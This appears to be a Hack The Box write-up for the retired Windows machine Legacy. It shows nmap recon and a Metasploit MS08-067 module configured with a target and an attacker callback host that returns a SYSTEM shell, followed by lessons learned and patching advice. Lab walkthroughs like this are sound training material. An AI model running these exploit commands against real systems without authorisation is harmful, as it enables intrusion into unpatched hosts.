



# Legacy — Hack The Box

<p align="left">
  
</p>

| | |
|---|---|
| **Platform** | Hack The Box |
| **Difficulty** | Easy |
| **OS** | Windows |
| **Status** | ✅ Retired |
| **Key techniques** | MS08-067 (SMB RCE) |

---

## TL;DR

Legacy, alongside Lame, was one of the very first machines on Hack The Box,
and it's built around another single, historically significant SMB
vulnerability: **MS08-067**, a remote code execution bug that predates
EternalBlue by nearly a decade and was itself exploited at massive scale by
the Conficker worm. One Metasploit module is the entire path to SYSTEM.

---

## Recon & Enumeration

```bash
nmap -Pn -sC -sV 10.10.10.4
nmap -Pn -p 445 -sC -sV 10.10.10.4
```



SMB (445) was the only service of interest, and version fingerprinting
against it flagged the target as vulnerable to **MS08-067** — one of the
oldest widely-exploited Windows RCE vulnerabilities, sitting in the SMB path
canonicalization logic.

---

## Foothold / Initial Access



```
search ms08
use exploit/windows/smb/ms08_067_netapi
set rhosts <TARGET_IP>
set lhost <ATTACKER_IP>
run
```

The exploit succeeded immediately, returning a session running as
`NT AUTHORITY\SYSTEM` — both flags were reachable right away under
`C:\Documents and Settings\...`, with no further escalation required.

---

## Lessons Learned

- **MS08-067 and MS17-010 (Blue) are worth knowing as a pair** — a decade
  apart, both are SMB remote code execution bugs that were mass-exploited by
  self-propagating worms (Conficker and WannaCry, respectively). Recognizing
  the pattern — SMB, old, unpatched, worm-exploited — speeds up triage on any
  legacy Windows box.
- **The oldest vulnerabilities are still worth checking first on old-looking
  targets** — version fingerprinting immediately pointed at a specific,
  well-documented exploit rather than requiring broader exploration.

---

## Remediation

- Apply the MS08-067 patch immediately; this vulnerability is from 2008 and
  has no legitimate reason to remain unpatched on any host.
- Disable legacy SMB versions and restrict SMB to internal, trusted network
  segments only.
- Retire genuinely end-of-life Windows versions that can no longer receive
  security updates at all.

---

## Tools used

- `nmap`
- Metasploit (`ms08_067_netapi`)

---

**See also:** [Windows privilege escalation methodology](../../methodology/windows-privesc.md)

---

**Machine:** [Hack The Box — Legacy](https://www.hackthebox.com/machines/legacy)

**Live version:** [read this write-up on my blog](https://debasjan.github.io/writeups/legacy/)
